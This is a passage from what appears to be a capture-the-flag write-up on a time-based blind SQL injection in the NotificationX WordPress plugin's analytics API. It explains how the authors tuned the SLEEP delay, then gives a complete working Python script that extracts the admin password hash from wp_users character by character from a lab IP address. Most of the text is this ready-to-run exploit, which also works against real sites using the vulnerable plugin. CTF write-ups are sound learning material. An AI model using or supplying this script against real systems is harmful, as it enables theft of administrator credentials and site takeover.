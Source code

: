![notxpath](/docs/images/ctf8notxpath.png)

This is very important because its the base of our exploit, we adapt the url in our exploit to `"http://44.242.216.18:5008/wp-json/notificationx/v1/analytics"`, but that wasn't enough, the password was returning empty, turns out the delay was too low between sql commands. We tried many different values, 0.8 seems to be the minimum for the exploit to give us output, however it doesn't give us the correct password, so we changed the delay to 5 and that seemed to do the trick. Firstly we were having some consistence problems, it wasn't giving us a password that started with `$P$B`, but after a few tries it started giving us the password correctly consistently, we think this varies from exploit to exploit, we tried a few, but all of them were giving us the correct answer after our initial problems. 
This is our final version of the code: 

```python
# Description: Exploit for the NotificationX plugin SQL injection vulnerability
import requests
import string
from sys import exit

# Sleep time for SQL payloads
delay = 5

# URL for the NotificationX Analytics API
url = "http://44.242.216.18:5008/wp-json/notificationx/v1/analytics"

admin_password_hash = ""

session = requests.Session()

for idx in range(1, 41):
    # Iterate over all the printable characters + NULL byte
    for ascii_val in (b"\x00"+string.printable.encode()):
        # Send the payload
        resp = session.post(url, data = {
                "nx_id": 1337,
                "type": f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx},1))={ascii_val},SLEEP({delay}),null)-- -"
            }
        )

        # Elapsed time > delay if delay happened due to SQLi
        if resp.elapsed.total_seconds() > delay:
            admin_password_hash += chr(ascii_val)
            # Show what we have found so far...
            print(admin_password_hash)
            # Exit condition - encountered a null byte
            if ascii_val == 0:
                print("[*] Admin password hash:", admin_password_hash)
                exit(0)
```